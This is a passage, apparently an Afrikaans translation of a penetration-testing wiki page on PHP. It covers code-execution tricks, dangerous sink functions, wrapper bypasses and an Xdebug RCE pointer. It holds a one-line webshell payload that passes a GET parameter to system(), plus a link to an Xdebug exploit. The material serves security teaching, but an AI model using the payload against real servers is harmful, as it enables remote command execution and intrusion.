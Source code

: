 [**In hierdie pos**](https://blog.redteam-pentesting.de/2024/moodle-rce/) is dit moontlik om wonderlike idees te vind om 'n brain fuck PHP-kode te genereer met baie min karakters wat toegelaat word.\
Boonop word daar ook 'n interessante manier voorgestel om funksies uit te voer wat hulle in staat gestel het om verskeie kontroles te omseil:
```php
(1)->{system($_GET[chr(97)])}
```
## PHP Statiese analise

Kyk of jy kode kan invoeg in oproepe na hierdie funksies (van [hier](https://www.youtube.com/watch?v=SyWUsN0yHKI&feature=youtu.be)):
```php
exec, shell_exec, system, passthru, eval, popen
unserialize, include, file_put_cotents
$_COOKIE | if #This mea
```
As jy 'n PHP-toepassing debugeer, kan jy globaal foutdrukking aktiveer in `/etc/php5/apache2/php.ini` deur `display_errors = On` by te voeg en apache te herbegin: `sudo systemctl restart apache2`

### Deobfuskerende PHP-kode

Jy kan die **web**[ **www.unphp.net**](http://www.unphp.net) **gebruik om php-kode te deobfuskeer.**

## PHP Wrappers & Protokolle

PHP Wrappers en protokolle kan jou toelaat om **skrywe en lees beskermings** in 'n stelsel te omseil en dit te kompromitteer. Vir [**meer inligting, kyk na hierdie bladsy**](../../../pentesting-web/file-inclusion/#lfi-rfi-using-php-wrappers-and-protocols).

## Xdebug ongeverifieerde RCE

As jy sien dat **Xdebug** **geaktiveer** is in 'n `phpconfig()` uitvoer, moet jy probeer om RCE te verkry via [https://github.com/nqxcode/xdebug-exploit](https://github.com/nqxcode/xdebug-exploit)

## Veranderlike veranderlikes
```php
$x = 'Da';
$$x = 'Drums';

echo $x; //Da
echo $$x; //Drums
echo $Da; //Drums
echo "${Da}"; //Drums
echo "$x ${$x}"; //Da Drums
echo "$x ${Da}"; //Da Drums
```
## RCE wat nuwe $\_GET\["a"]\($\_GET\["b") misbruik

As jy op 'n bladsy **n nuwe objek van 'n arbitrêre klas kan skep**, mag jy in staat wees om RCE te verkry, kyk na die volgende bladsy om te leer hoe:
